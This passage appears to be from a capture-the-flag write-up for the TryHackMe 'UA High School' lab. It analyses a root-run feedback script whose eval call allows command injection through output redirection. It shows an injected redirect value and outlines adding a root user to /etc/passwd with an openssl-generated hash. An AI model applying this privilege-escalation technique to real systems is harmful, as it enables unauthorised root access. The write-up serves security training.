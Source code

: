 ```shell
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

When we look at this script, we can see that it’s **filtering** certain characters like ```, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\`, and then it is using the **eval** function to echo the feedback set as input when we launch the script.

Looking at this special line, we can easily see that we could **write in any file as root** using this script.

If we put `text > /home/deku/test.txt` then the whole line will look like :

```shell
echo text > /home/deku/test.txt
```

So it writes the string `text` in the file located in the home folder of deku, `test.txt`.

![9](/assets/img/tryhackme/ctf/uahighschool/9.png)

Using this vulnerability, we could write a **new user entry** in `/etc/passwd` with **root** privileges.

First, we create a new hashed password using **openssl** command, I set it as `root`.

```shell
$ openssl passwd -6
Password:
Verifying - Password:
$6$LzGlf10v8QfV4Ush$Svictmz8nB3EXhM3E9QDP.jjVW99TqXRDDUR9YSkP.SD4q/2yYAF2zQot5ZonF0pncGSLeJ5K3/74hTRp.Vyo1
```
